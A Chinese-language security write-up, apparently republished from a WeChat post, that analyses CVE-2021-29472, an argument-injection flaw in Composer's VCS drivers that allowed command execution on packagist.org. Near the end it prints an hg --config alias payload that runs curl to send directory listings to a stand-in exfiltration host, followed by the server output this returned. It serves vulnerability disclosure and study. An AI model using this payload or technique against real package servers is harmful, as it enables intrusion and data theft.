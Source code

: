 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?src=11×tamp=1647401967&ver=3679&signature=k-TbFkTL16X*WrqI9vXTDgoA1oQHy87N3uZXzzYwsgRD**ieDbvZN7-EkI05P8txmz8HShxPXsV7QGNZkPImMuTJO*bqtfvFIxjX70PFzjsGgoO3ycpSSZmpKDpL70ae&new=1)

概述


------

Composer 是 PHP 社区的依赖项管理器，它简化了安装，更新和使用第三方程序包的过程。Composer 使用 Packagist 在线服务来确定正确的软件包下载供应链。据估计，Packagist 基础设施每月可处理约 14 亿次下载请求。

研究人员在在 Composer 源代码中发现的一个高危漏洞 (CVE-2021-29472)，该漏洞源于 composer.json 根文件对存储库的 URL 未正确清理，从而允许攻击者在 Packagist.org 服务器上执行任意系统命令并建立后门。

技术细节


--------

当系统要求下载软件包时，Composer 将首先查询 Packagist 以获取其元数据。该元数据包含两个字段，source 字段指向开发存储库，而 dist 字段指向预先构建的档案。从存储库下载代码时，Composer 将使用外部系统命令来避免重新实现特定于每个版本控制软件 (VCS) 的逻辑。为此，其使用 ProcessExecutor 封装程序执行此类调用。

**composer/src/Composer/Util/ProcessExecutor.php**

```
use Symfony\Component\Process\Process;
// [...]
class ProcessExecutor
{
    // [...]
    public function execute($command, &$output = null, $cwd = null)
{
        if (func_num_args() > 1) {
            return $this->doExecute($command, $cwd, false, $output);
        }
        return $this->doExecute($command, $cwd, false);
    }
    // [...]
    private function doExecute($command, $cwd, $tty, &$output = null)
{
        // [...]
        if (method_exists('Symfony\Component\Process\Process', 'fromShellCommandline')) {
            // [1]
            $process = Process::fromShellCommandline($command, $cwd, null, null, static::getTimeout());
        } else {
            // [2]
            $process = new Process($command, $cwd, null, null, static::getTimeout());
        }
        if (!Platform::isWindows() && $tty) {
            try {
                $process->setTty(true);
            } catch (RuntimeException $e) {
                // ignore TTY enabling errors
            }
        }
        $callback = is_callable($output) ? $output : array($this, 'outputHandler');
        $process->run($callback);

```

在注释 [1] 和注释 [2] 处，可以看到 $command 参数是由 Symfony\Component\Process\Process 在 shell 中执行的。大多数 ProcessExecutor 调用均在 VCS 驱动器中执行，该驱动器负责对远程和本地存储库进行任意操作 (克隆、提取信息等)，如在 Git 驱动器中：

**composer/src/Composer/Repository/Vcs/GitDriver.php**

```
public static function supports(IOInterface $io, Config $config, $url, $deep = false)
{
    if (preg_match('#(^git://|\.git/?$|git(?:olite)?@|//git\.|//github.com/)#i', $url)) {
        return true;
    }
    // [...]
    try {
        $gitUtil->runCommand(function ($url) {
            return 'git ls-remote --heads ' . ProcessExecutor::escape($url); // [1]
        }, $url, sys_get_temp_dir());
    } catch (\RuntimeException $e) {
        return false;
    }

```

虽然使用 ProcessExecutor:: escape() 对 $url 参数进行转义，以防止 shell 对子命令 $(...) 和 `...` 的求值，但没有什么会阻止用户提供以 -- 破折号开头，并在最终命令后附加额外的参数的值。

这种参数注入漏洞，存在于用户控制的数据已正确转义，但连接到系统命令的驱动器中：

```
public static function supports(IOInterface $io, Config $config, $url, $deep = false)
{
    $url = self::normalizeUrl($url);
    if (preg_match('#(^svn://|^svn\+ssh://|svn\.)#i', $url)) {
        return true;
    }
    // [...]
    $process = new ProcessExecutor($io);
    $exit = $process->execute(
        "svn info --non-interactive ".ProcessExecutor::escape($url),
        $ignoredOutput
    );

```

```
public static function supports(IOInterface $io, Config $config, $url, $deep = false)
{
    if (preg_match('#(^(?:https?|ssh)://(?:[^@]+@)?bitbucket.org|https://(?:.*?)\.kilnhg.com)#i', $url)) {
        return true;
    }
    // [...]
    $process = new ProcessExecutor($io);
    $exit = $process->execute(sprintf('hg identify %s', ProcessExecutor::escape($url)), $ignored);
    return $exit === 0;
}

```

packagist.org 入侵


--------------------

packagist/src/Entity/Package.php 所示，它将执行以下操作：

```
$io = new NullIO();
$config = Factory::createConfig();
$io->loadConfiguration($config);
$httpDownloader = new HttpDownloader($io, $config);
$repository = new VcsRepository(['url' => $this->repository], $io, $config, $httpDownloader); // [1]
$driver = $this->vcsDriver = $repository->getDriver(); // [2]
if (!$driver) {
    return;
}
$information = $driver->getComposerInformation($driver->getRootIdentifier());
if (!isset($information['name'])) {
    return;
}
if (null === $this->getName()) {
    $this->setName(trim($information['name']));
}

```

*   GitHubDriver
    
*   GitLabDriver
    
*   GitBitbucketDriver
    
*   GitDriver
    
*   HgBitbucketDriver
    
*   HgDriver
    
*   PerforceDriver
    
*   FossilDriver
    
*   SvnDriver
    

漏洞利用


--------

研究人员在阅读 Mercurial 客户端 (hg) 使用手册时，注意到其存在 --config 标志。该标志允许我们在执行任何操作之前将新的配置指令加载到客户端。客户端支持别名设置，并具有以下描述：

可以使用与现有命令相同的名称来创建别名，然后覆盖原始定义。别名可以以感叹号 (!) 开头，以使其成为 Shell 别名。Shell 别名与 Shell 一起执行，可让您运行任意命令。例如，echo = !echo $@

Shell 别名与 Shell 一起执行，可让您运行任意命令。  

通过以上描述，我们可以通过将命令标识别名添加到我们选择的 shell 命令中，使 hg 执行注入的命令，而不是查找远程存储库。最终的有效载荷如下所示：

```
-config=alias.identify=!curl http://exfiltration-host.tld --data “$(ls -alh)”

```

在 packagist.org 上使用此 URL 提交新程序包后，研究人员成功获得命令执行，AWS 主机返回的 HTTP 请求如下所示：

```
total 120K 
drwxrwxr-x  9 composer composer 4.0K Apr 21 23:19 . 
dr-xr-xr-x 15 composer composer 4.0K Apr 20 07:38 .. 
-r--r--r--  1 composer composer 8.7K Apr 20 07:38 .htaccess 
-r--r--r--  1 composer composer 1.3K Apr 20 07:38 app.php 
-r--r--r--  1 composer composer 8.2K Apr 20 07:38 apple-touch-icon-precomposed.png 
-r--r--r--  1 composer composer 8.2K Apr 20 07:38 apple-touch-icon.png 
dr-xr-xr-x  3 composer composer 4.0K Jan 13 14:35 bundles 
dr-xr-xr-x  4 composer composer 4.0K Apr 20 07:38 css [...] 
lrwxrwxrwx  1 composer composer   15 Aug 13  2020 packages.json -> p/packages.json 
lrwxrwxrwx  1 composer composer   18 Aug 13  2020 packages.json.gz -> p/packages.json.gz 
-r--r--r--  1 composer composer  106 Apr 20 07:38 robots.txt 
-r--r--r--  1 composer composer  798 Apr 20 07:38 search.osd 
dr-xr-xr-x  2 composer composer 4.0K Apr 20 07:38 static-error 
-r--r--r--  1 composer composer 8.8K Apr 20 07:38 touch-icon-192x192.png

```

END